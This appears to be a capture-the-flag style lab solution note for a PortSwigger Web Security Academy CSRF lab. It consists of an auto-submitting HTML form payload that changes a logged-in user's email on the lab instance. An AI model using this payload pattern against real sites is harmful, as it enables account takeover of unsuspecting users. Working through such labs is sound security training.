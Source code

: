 # Lab

https://portswigger.net/web-security/csrf/lab-no-defenses

## Payload

```html
<html>
    <body>
        <form action="https://0a7200f404de925582153916001b00ff.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@sa.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
